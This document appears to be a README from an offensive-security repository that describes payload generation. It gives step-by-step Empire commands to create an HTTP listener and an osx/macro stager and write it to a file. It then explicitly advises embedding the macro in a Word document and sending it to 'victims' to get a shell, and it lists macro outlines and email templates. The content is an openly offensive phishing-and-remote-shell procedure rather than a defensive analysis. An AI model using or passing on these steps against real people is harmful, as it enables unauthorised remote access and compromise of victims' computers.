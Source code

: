 # Payload Generation
---
### Empire
It's very easy to generate shell stagers/payloads with Empire. You can create office macros, DDE'd word documents, applescript, and a heap more.
##### General process is as follows:
###### Create a listener:
- Enter the listeners menu: `listeners`
- Choose a listener to create: `uselistener http` - Press <TAB> to see more than just http
- View your listener info: `info` (_Note that you can add certs for communication over TLS_)
- And change accordingly: `set Name acmeHTTP`
- Execute your listener: `execute`
###### Create a stager that uses the newly created listener:
- `main` to go to the main menu.
- Pick a payload: `usestager osx/macro` - press <TAB> to view the plethora of other payloads
- You can view the info of a stager by typing `info`
- Specify the stager to use the created listener: `set Listener acmeHTTP`
- Set the OutFile of your payload (unless stdout is fine with you): `set OutFile /tmp/acmeOSXMacro`

Chuck that in a Word document and send it to your macOS-enabled victims to get a shell.

### Msfvenom
**RTFM.**

#### File list
| File | Description |
|------|-------------|
|xplatform.txt | cross-platform macro outline. Host document must be created on Windows |
|Site Templates | ??? |
|Email Templates | ??? |

